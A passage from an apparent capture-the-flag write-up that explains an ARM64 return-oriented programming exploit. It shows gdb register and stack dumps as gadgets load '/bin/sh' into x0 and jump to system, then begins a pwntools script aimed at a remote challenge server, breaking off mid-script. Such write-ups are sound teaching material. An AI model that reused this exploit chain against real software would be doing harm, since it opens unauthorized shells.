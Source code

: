 We basically just executed `main` `ldp x29, x30, [sp], #32`, the `x30`
register now points to our first gadget, and the stack pointer is at the
`x29`, `x30` we setup as the second gadget.  The pointer to `/bin/sh` is 16
bytes down stack for the first gadget to load from.

After 3 `si`'s:

```  
$x19 : 0x0000ffff9ebbd9a8  →  0x0068732f6e69622f ("/bin/sh"?)  
$x20 : 0x4444444444444444 ("DDDDDDDD"?)  
$x21 : 0x0  
$x22 : 0x0  
$x23 : 0x0  
$x24 : 0x0  
$x25 : 0x0  
$x26 : 0x0  
$x27 : 0x0  
$x28 : 0x0  
$x29 : 0x4343434343434343 ("CCCCCCCC"?)  
$x30 : 0x0000ffff9eae6080  →  <__xpg_basename+120> mov x0,  x19  
$sp  : 0x0000ffffe27d9ba0  →  0x4444444444444444 ("DDDDDDDD"?)  
$pc  : 0x0000ffff9eac5cc4  →   ret  
$cpsr: [negative ZERO CARRY overflow interrupt fast]  
$fpsr: 0x0  
$fpcr: 0x0  
─────────────────────────────────────────────────────────────────────────
stack ────  
0x0000ffffe27d9ba0│+0x0000: 0x4444444444444444   ← $sp  
0x0000ffffe27d9ba8│+0x0008: 0x0000ffff9eae4818  →  0x17fffe99b4000040 ("@"?)  
```

`x19` is now pointing to `/bin/sh`, `x30` is loaded up with the address of the
second gadget.

The stack frame for the 2nd gadget has `x29` and `x30` set to garbage and
`system` respectively.

After 4 `si`'s:

```  
$x0  : 0x0000ffff9ebbd9a8  →  0x0068732f6e69622f ("/bin/sh"?)  
...  
$x30 : 0x0000ffff9eae4818  →  0x17fffe99b4000040 ("@"?)  
```

`x0` is pointing to `/bin/sh` and `x30` pointing to `system`, just `continue`
to pop a shell.

## Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./arm')

if args.REMOTE:  
   p = remote('172.104.14.64', 54732)  
   libc = ELF('./libc-2.23.so')  
   p.recvuntil('printf at ')  
else:  
   if os.uname().machine == context.arch:  
       p = process(binary.path)  
       libc = binary.libc  
   else:  
       if args.GDB:  
```